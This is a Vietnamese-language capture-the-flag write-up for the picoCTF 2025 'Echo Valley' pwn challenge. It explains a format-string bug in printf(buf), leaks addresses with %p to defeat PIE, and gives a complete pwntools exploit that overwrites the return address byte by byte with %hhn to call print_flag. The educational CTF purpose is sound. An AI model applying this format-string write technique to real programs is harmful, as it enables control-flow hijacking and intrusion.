 <div align='center'>

## **picoCTF 2025 writeup: Echo Valley (pwn)**

</div>

## **Checksec**

![alt text](image.png)

Với binary, ta chỉ quan tâm đến 2 phần: `PIE` và `Full RELRO`
- `PIE` (Position Independent Executable): binary có thể chạy ở bất kỳ vị trí nào trong memory (địa chỉ của các vùng nhớ không cố định) => không thể biết địa chỉ của các hàm trong binary trước khi chạy
- `Full RELRO`: read-only segment của binary sẽ được đóng lại sau khi binary được load vào memory => không thể thay đổi GOT (Global Offset Table) của binary

## **Vulnerability**

Nhìn vào source code:

```c
while(1)
    {
        fflush(stdout);
        if (fgets(buf, sizeof(buf), stdin) == NULL) {
          printf("\nEOF detected. Exiting...\n");
          exit(0);
        }

        if (strcmp(buf, "exit\n") == 0) {
            printf("The Valley Disappears\n");
            break;
        }

        printf("You heard in the distance: ");
        printf(buf);
        fflush(stdout);
    }
```

Ta dễ dàng nhận ra bug format string ở đây: `printf(buf)` và nó cũng ở trong vòng lặp vô hạn => có thể dùng bao lần tùy thích

Và ta cũng thấy hàm `print_flag()` sẽ output file `flag.txt`

```c
void print_flag() {
    char buf[32];
    FILE *file = fopen("/home/valley/flag.txt", "r");

    if (file == NULL) {
      perror("Failed to open flag file");
      exit(EXIT_FAILURE);
    }
    
    fgets(buf, sizeof(buf), file);
    printf("Congrats! Here is your flag: %s", buf);
    fclose(file);
    exit(EXIT_SUCCESS);
}
```

Vậy hướng đi khá rõ ràng: sử dụng bug format string bằng cách nào đó để khiến chương trình gọi hàm `print_flag()`

## **Analysis**

Với bug format string thì ta có thể đọc được giá trị ở bất kỳ địa chỉ nào trong vùng nhớ stack và nguy hiểm hơn là có thể ghi giá trị vào bất kỳ địa chỉ nào trong vùng nhớ. Vậy ta sẽ đọc gì và ghi gì?

Như đề cập ở phần **Checksec**, tuy `PIE` đã có bật nhưng nếu ta biết thông tin về địa chỉ của một chỉ dẫn nào đó trong khi chương trình vẫn đang chạy thì `PIE` sẽ trở nên vô dụng và sẽ tính được địa chỉ của `print_flag()`

Tiếp theo, ta cần địa chỉ của vùng nhớ stack để tính toán và ghi đè địa chỉ trả vềvề bằng địa chỉ của `print_flag()`

Đặt gdb breakpoint ở `printf(buf)` và xem stack layout:

![alt text](image-1.png)

![alt text](image-2.png)

![alt text](image-3.png)

Ta đã thấy được địa chỉ của `main` cũng như địa chỉ của vùng nhớ stack. Sau vài lần fuzzing thì ta cũng biết offset của nó khi ta dùng format string `%p`

![alt text](image-4.png)

Lạm dụng việc khai thác bug format string vô hạn lần, ta có thể ghi đè từng byte một để giảm thiểu thời gian chờ đợi

```python
def arb_write_8(addr, data):
    payload = b''
    if data == 0: #If the amount is 0, we shouldn't print anything before %n
        payload = f"%8$hhn".encode()
    else:
        payload = f"%{data}c%8$hhn".encode()
    
    #Calculate the padding for us to be able to put a pointer afterwards. The fmt_string for 8bit arbitrary write should never go over 16.
    padding = b'A'*(16-len(payload))
    payload+=padding

    #Add the pointer we want to write to
    payload+=pwn.p64(addr)
    print(f"Payload: {payload}")
    p.sendline(payload)
    print(p.recv())
    
def arb_write_64(addr,data):
    #Calculate all bytes to write
    to_write = [
        data & 0xff,
        (data >> 8) & 0xff,
        (data >> 16) & 0xff,
        (data >> 24) & 0xff,
        (data >> 32) & 0xff,
        (data >> 40) & 0xff,
        (data >> 48) & 0xff,
        (data >> 56) & 0xff,
        ]
    #Write everything one byte at a time
    for i in range(0,len(to_write)):
        arb_write_8(addr+i,to_write[i])
```

## **Exploit**

Và đây là payload cuối cùng:

```python
import pwn


elf  = pwn.ELF('./valley')
p = elf.process()

def arb_write_8(addr, data):
    payload = b''
    if data == 0: #If the amount is 0, we shouldn't print anything before %n
        payload = f"%8$hhn".encode()
    else:
        payload = f"%{data}c%8$hhn".encode()
    
    #Calculate the padding for us to be able to put a pointer afterwards. The fmt_string for 8bit arbitrary write should never go over 16.
    padding = b'A'*(16-len(payload))
    payload+=padding

    #Add the pointer we want to write to
    payload+=pwn.p64(addr)
    print(f"Payload: {payload}")
    p.sendline(payload)
    print(p.recv())
    
def arb_write_64(addr,data):
    #Calculate all bytes to write
    to_write = [
        data & 0xff,
        (data >> 8) & 0xff,
        (data >> 16) & 0xff,
        (data >> 24) & 0xff,
        (data >> 32) & 0xff,
        (data >> 40) & 0xff,
        (data >> 48) & 0xff,
        (data >> 56) & 0xff,
        ]
    #Write everything one byte at a time
    for i in range(0,len(to_write)):
        arb_write_8(addr+i,to_write[i])
    

p.sendlineafter(b'Shouting: \n', b'%27$p %56$p')
p.recvuntil(b'distance: ')



leak = p.recvline().strip().split()
main_addr = int(leak[0], 16)
win_addr = main_addr + elf.symbols.print_flag - elf.symbols.main
rip_addr = int(leak[1], 16) - 0x120




print(f'Main address: {hex(main_addr)}')
print(f'RIP address: {hex(rip_addr)}')

arb_write_64(rip_addr, win_addr)
p.interactive()
```
